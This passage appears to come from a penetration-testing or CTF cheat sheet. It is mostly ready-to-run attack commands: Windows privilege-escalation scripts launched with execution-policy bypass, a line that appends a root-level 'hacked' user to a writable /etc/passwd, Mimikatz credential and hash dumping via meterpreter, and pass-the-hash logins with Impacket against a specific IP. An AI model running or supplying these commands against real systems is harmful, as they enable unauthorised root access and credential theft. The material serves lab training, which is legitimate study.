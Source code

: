 - Automated tools
```
# Powerup.ps1
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
# gopher.ps1
powershell.exe -ExecutionPolicy Bypass -File .\gopher.ps1
# watson.exe
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
cd c:\Windows\Microsoft.NET\Framework & dir /A:D

To run, just type watson.exe
# sherlock.ps1
powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
# jaws-enum.ps1
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
# powerless.bat
powerless.bat
# windows-privesc-check2.exe
windows-privesc-check2.exe --audit -a -o wpc-report
# Windows-exploit-suggester.py
windows-exploit-suggester.py 
```
## Linux 
#### Adding a user to a world-writeable /etc/passwd file
```
# Generating a new user hash
openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```
```
# add user with root privs
echo "hacked:\$1\$salt\$qJH7.N4xYta3aEG/dfqo/0:0:0:root:/root:/bin/bash" >> /etc/passwd
```
```
# su into the privileged user
su hacked
```
# Loot
## Creds
## Hashes
- Mimikatz
```
#on meterpreter
load mimikatz 
msv
kerberos
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords
```
- Impacket
```
# extract hashes
pwdump.py SYSTEM SAM 
# PtH
psexec.py -hashes :a9fdfa038c4b75ebc76dc855dd74f0da admin@100.123.216.23 cmd.exe
pth-winexe -U 'admin%LM:NTLM' //100.123.216.23 cmd.exe
```
#### Hashcracking
## Proof.txt / flag.txt
